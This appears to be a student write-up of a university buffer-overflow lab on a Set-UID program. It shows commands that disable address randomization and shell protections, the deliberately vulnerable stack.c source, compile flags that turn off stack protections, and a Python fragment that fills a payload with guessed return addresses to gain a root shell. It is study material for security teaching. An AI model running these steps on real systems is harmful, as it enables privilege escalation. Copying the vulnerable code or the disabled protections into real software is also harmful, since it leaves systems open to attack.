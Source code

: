 # Buffer Overflow Attack Lab (Set-UID Version)

## Environment Setup

Modern operating systems have implemented several security mechanisms to make the buffer-overflow attack difficult. 

Ubuntu and several other Linux-based systems uses address space randomization to randomize the starting address of heap and stack.  This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks.

This protection, can be disabled with the command:

```bash
 $ sudo sysctl -w kernel.randomize_va_space=0
 ```

In the recent versions of Ubuntu OS, the/bin/sh symbolic link points to the/bin/dash shell. The dash program, as well as bash, has implemented a security countermeasure that prevents itself from being executed in a Set-UID process. Basically, if they detect that they are executed in a Set-UID process, they will immediately change the effective user ID to the process’s real user ID, essentially dropping the privilege.

Since  our  victim  program  is a Set-UID program, we will link /bin/sh to another shell that does not have such a countermeasur using the following command:

```bash
 $ sudo ln -sf /bin/zsh /bin/sh
 ```

# Task 1

After, we compiled "call_shell.c" using "make", two executables where created one for 32 bits and another for 64 bits. When running them, both opened a new shell in the same directory that we ran the program.

![CreateShell](../docs/week5/log5task1.png)

# Task 2

In the "stack.c" file we have the following code:

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}
```

This program has a buffer-overflow vulnerability. It starts by opening a file "badfile" and reading 517 bytes to an array of chars called str. Then, it calls the bof function and uses "strcpy" to copy data from the array to a buffer of chars with size of 100 bytes. This process causes an overflow because "strcpy" does not check boundaries.

For the vulnerable program, we disabled StackGuard and protections against code execution invoked from the stack. Additionally, we changed the program's owner to root and activated Set-UID.

This can be done with the following commands:

````bash
 $ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
 $ sudo chown root stack
 $ sudo chmod 4755 stack
 ````

Because the compilation and setup commands are already included in Makefile, we just need to type "make".

![CreateShell](../docs/week5/log5task2.png)




# Task 4

At the start of this task, we use gdb to find the buffer adress, ignoring the buffer size "160".

![bufferadress](../docs/week5/logtask4(1).png)

We only know that it is between 100 and 200 so we populate our ret variable with the values we got and define some bounds. Then we run this cycle to populate the 'content' array with the bytes from the 'ret' variable. 

```
ret    = 0xffffcac0 + start      # Change this number 
lowerbound = 100
upperbound = 200                        # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
temp = (ret).to_bytes(L,byteorder='little')

for offset in range(lowerbound, upperbound + L, L):
    content[offset:offset + L] = temp 
```

Finally, by running the exploit we ge access to the shell.

![sucess](../docs/week5/logtask4(2).png)